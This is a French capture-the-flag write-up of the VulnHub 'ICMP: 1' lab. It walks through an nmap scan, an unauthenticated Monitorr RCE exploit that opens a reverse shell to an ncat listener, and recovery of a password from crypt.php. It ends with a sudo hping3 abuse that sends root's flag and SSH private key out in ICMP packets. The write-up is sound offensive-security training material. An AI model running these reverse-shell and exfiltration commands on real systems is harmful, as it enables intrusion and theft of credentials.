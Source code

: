 # Solution du CTF ICMP de VulnHub

Proposé par foxlox, [ICMP: 1](https://vulnhub.com/entry/icmp-1,633/) est une box affichée comme facile. D'autant plus si on a de bonnes connaissances en réseau :)

```
Nmap scan report for 192.168.56.44
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title:             Monitorr            | Monitorr        
|_Requested resource was http://192.168.56.44/mon/
|_http-server-header: Apache/2.4.38 (Debian)
```

On a une appli web avec une signature qui donne son nom ainsi que son numro de version : Monitorr 1.7.6m, la release date de juillet 2018 ([Release Master: 1.7.6m · Monitorr/Monitorr · GitHub](https://github.com/Monitorr/Monitorr/releases/tag/1.7.6m))

Une recherche sur exploit-db remonte deux exploits :

* [Monitorr 1.7.6m - Authorization Bypass - PHP webapps Exploit](https://www.exploit-db.com/exploits/48981)

* [Monitorr 1.7.6m - Remote Code Execution (Unauthenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/48980)

L'une est un bypass d'autorisation et l'autre une RCE... sans authentification. Bref on peut directement zapper la première.

L'exploit en question se sert d'une faille de type unresitricted upload (à peu de choses près car il fake le content-type et intègre un entête d'image mais *Monitorr* laisse passer l'extension en PHP). Le code uploadé exécute une commande bash de reverse shell, il faut donc mettre un ncat en écoute avant exécution :

```shellsession
$ python3 monitorr.py http://192.168.56.44/mon 192.168.56.1 9999
A shell script should be uploaded. Now we try to execute it
```

Et voilà :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.44.
Ncat: Connection from 192.168.56.44:48580.
bash: cannot set terminal process group (455): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icmp:/var/www/html/mon/assets/data/usrimg$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sur le système je remarque un utilisateur nommé *fox* :

`uid=1000(fox) gid=1000(fox) groups=1000(fox)`

```shellsession
www-data@icmp:/home/fox$ ls -al
total 20
drwxr-xr-x 3 root root 4096 Dec  3  2020 .
drwxr-xr-x 3 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
drwx--x--x 2 fox  fox  4096 Dec  3  2020 devel
-rw-r--r-- 1 fox  fox    33 Dec  3  2020 local.txt
-rw-r--r-- 1 root root   78 Dec  3  2020 reminder
www-data@icmp:/home/fox$ cat local.txt
c9db6c88939a2ae091c431a45fb1e59c
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?
```

Le script *crypt.php* se trouve dans le dossier *devel*. On ne peut pas lister le dossier mais passer à travers (droit exécution). Ca semblait évident :)

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```

Si on exécute le script avec l'interpréteur PHP ça nous donne `daBzh0EX1iJIU`.

Mais c'est bien `BUHNIJMONIBUVCYTTYVGBUHJNI`  qui est accepté comme mot de passe pour l'utilisateur *fox*.

On peut directement se connecter via SSH avec cet utilisateur et constater qu'il peut exécuter deux commandes en tant que root :

```bash
User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3
```

`hping3` ne dispose pas d'option permettant d'exécuter du code mais des options permettent de spécifier la charge à injecter dans le paquet réseau.

On va donc s'envoyer le flag final :

```shellsession
$ ls -al /root
total 36
drwxr-xr-x  3 root root 4096 Dec  3  2020 .
drwxr-xr-x 18 root root 4096 Dec  3  2020 ..
lrwxrwxrwx  1 root root    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   84 Nov  4  2020 .google_authenticator
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Dec  3  2020 proof.txt
drwxr-xr-x  2 root root 4096 Nov  4  2020 .ssh
-rw-------  1 root root  937 Dec  3  2020 .viminfo
-rw-r--r--  1 root root  209 Dec  3  2020 .wget-hsts
$ sudo /usr/sbin/hping3 --icmp --file /root/proof.txt -d 33 192.168.56.1
HPING 192.168.56.1 (enp0s3 192.168.56.1): icmp mode set, 28 headers + 33 data bytes
[main] memlockall(): Operation not supported
Warning: can't disable memory paging!
len=61 ip=192.168.56.1 ttl=64 id=185 icmp_seq=0 rtt=8.3 ms
```

On aura bien sûr mis un tshark à l'écoute :

```shellsession
$ sudo tshark -x -i vboxnet0 icmp
Running as user "root" and group "root". This could be dangerous.
Capturing on 'vboxnet0'
 ** (tshark:15465) 21:43:04.226969 [Main MESSAGE] -- Capture started.
 ** (tshark:15465) 21:43:04.227064 [Main MESSAGE] -- File: "/tmp/wireshark_vboxnet0QMF5U1.pcapng"
0000  0a 00 27 00 00 00 08 00 27 bb c6 71 08 00 45 00   ..'.....'..q..E.
0010  00 3d 65 ac 00 00 40 01 23 96 c0 a8 38 2c c0 a8   .=e...@.#...8,..
0020  38 01 08 00 04 00 6f 03 00 00 39 33 37 37 65 37   8.....o...9377e7
0030  37 33 38 34 36 61 65 61 62 62 35 31 62 33 37 31   73846aeabb51b371
0040  35 35 65 31 35 63 66 36 33 38 0a                  55e15cf638.
```

On peut aussi ne récupérer que le texte via la commande :

```bash
sudo tshark -w- -i vboxnet0 icmp
```

On peut modifier la commande hping pour envoyer la clé privée SSH de l'utilisateur root. Il faut la recoller car elle parvient en deux paquets mais c'est suffisant pour avoir un shell.

```shellsession
$ ssh -i root.key root@192.168.56.44
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@icmp:~# cat proof.txt 
9377e773846aeabb51b37155e15cf638
```

Ce fut rapide mais pas inintéressant :)

*Publié le 4 novembre 2022*

